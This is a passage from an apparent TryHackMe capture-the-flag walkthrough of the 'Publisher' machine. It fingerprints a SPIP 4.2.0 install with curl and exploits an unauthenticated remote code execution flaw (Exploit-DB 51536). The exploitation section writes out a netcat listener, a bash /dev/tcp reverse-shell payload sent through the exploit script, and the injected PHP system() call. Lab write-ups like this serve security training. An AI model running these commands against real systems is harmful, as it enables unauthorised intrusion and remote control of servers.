 The directory `spip` is discovered. Upon visiting this direcory, we see the version of SPIP used by our target in the HTML source code.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ curl -s http://10.10.20.60/spip/ | grep -i generator 
<meta name="generator" content="SPIP 4.2.0" /></head>
        <small class="generator"><a href="https://www.spip.net/" rel="generator" title="Site réalisé avec SPIP" class="generator spip_out"><svg class='SPIP' viewBox="0 -1 200 154" xmlns="http://www.w3.org/2000/svg" width="60" height="40" focusable='false' aria-hidden='true'>
```

Now that we have the version number, we can Google this to search for any public vulnerability this version may suffer from.
![](/assets/img/posts/walthrough/tryhackme/2024-10-11-publisher/vuln-identification.png)

## Exploitation

The version used by our target apppears to suffer from an unauthenticated remote code execution. We can copy the exploit on [Exploit DB](https://www.exploit-db.com/exploits/51536) and start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Publisher]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

After starting our listener, we can execute a reverse shell on the target in two phases. The first phase consist to create to create a file containing the reverse shell and the phase consist of executing that shell using bash.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ python3 spip_exploit.py -v -u http://10.10.20.60/spip -c 'echo "bash -i >& /dev/tcp/10.8.23.19/1234 0>&1" >/tmp/shell'
[+] Anti-CSRF token found : AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
[+] Execute this payload : s:79:"<?php system('echo "bash -i >& /dev/tcp/10.8.23.19/1234 0>&1" >/tmp/shell'); ?>";

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ python3 spip_exploit.py -v -u http://10.10.20.60/spip -c 'bash /tmp/shell'
[+] Anti-CSRF token found : AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
```
